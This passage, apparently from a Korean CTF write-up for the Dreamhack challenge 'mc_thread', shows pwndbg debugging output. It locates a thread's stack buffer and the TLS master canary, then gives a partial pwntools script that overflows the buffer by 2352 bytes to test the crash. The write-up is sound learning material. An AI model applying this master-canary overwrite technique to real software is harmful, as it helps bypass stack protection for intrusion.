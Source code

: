 
`thread_routine` 에 브레이크를 걸고 대충 아무 SIze 넣고 `read_bytes` 함수에 들어갔다.   

그리고 A * 8 을 입력해주고 충분히 뒤로 간 다음 스택을 확인해줬다.   

<br>

<img width="1357" height="790" alt="image (17)" src="https://github.com/user-attachments/assets/2d5f59c1-c9f5-4e88-8e0b-12fee0934984" />


입력받은 buf 값이 어디 저장되어있는지 보인다.  

<br>

<img width="1254" height="710" alt="image (18)" src="https://github.com/user-attachments/assets/07f5d3dd-376c-4c62-b7cb-0d1264d5b403" />

A 가 들어있는 곳을 조사 했더니 이렇게 카나리 값이 있는 곳을 찾았다.   

근데 이 문제에서는 저 카나리 값을 읽을 방법이 없다.   
그러니 그냥 마스터 카나리를 바꿔보자.   


```bash
pwndbg> x/gx $fs_base+0x28
0x797253fbf668: 0x08ebf2d645951400
pwndbg> print 0x797253fbf668 - 0x797253fbed40
$1 = 2344
```

buf 부터 카나리가 있는 곳까지 거리는 구할 수 있으니 바로 익스플로잇 코드를 작성해줬다.  

<br>

**코어 덤프 확인용 익스플로잇 코드**  

```bash
from pwn import *

#p = remote('host8.dreamhack.games', 0)
p = process('./mc_thread')
e = ELF('./mc_thread')

giveshell_addr = e.symbols['giveshell']

p.sendlineafter(b'Size: ', b'294')
p.recvuntil(b'Data: ')
p.send(b'A'*2352)

p.interactive()

```

이렇게 작성하고 실행시키면  

<br>

<img width="1430" height="904" alt="image (19)" src="https://github.com/user-attachments/assets/edb51e25-f41b-4672-bf70-16587975b65e" />

이렇게 (SIGSEGV)를 일으키며 멈추게 된다.   
